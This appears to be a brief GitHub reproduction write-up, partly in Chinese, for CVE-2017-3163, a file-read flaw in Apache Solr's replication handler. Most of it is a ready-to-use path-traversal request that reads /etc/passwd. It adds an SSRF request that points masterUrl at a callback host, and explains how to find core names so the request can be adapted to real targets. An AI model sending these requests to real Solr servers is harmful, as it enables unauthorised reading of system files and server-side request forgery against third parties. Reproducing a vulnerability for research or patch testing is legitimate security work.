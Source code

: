 CVE-2017-3163复现
--

Target Solr version: <5.5.4 and <6.4.1 Requirements: none

`GET /solr/db/replication?command=filecontent&file=../../../../../../../../../../../../../etc/passwd&wt=filestream&generation=1`

There is also an unfixed SSRF here, but with the existence of "shards" feature it's hardly considered as a vulnerability:

`GET /solr/db/replication?command=fetchindex&masterUrl=http://callback/xxxx&wt=json&httpBasicAuthUser=aaa&httpBasicAuthPassword=bbb`

此处我只复现一下文件读取吧

![](assets/res.png)

这里需要注意上面链接的db是core的名字，这个需要根据真实的攻击场景自行更改，我们在真实环境中可以利用

`/solr/admin/cores?wt=json`获取

![](assets/get_core.png)

写poc的时候也需要注意这一点

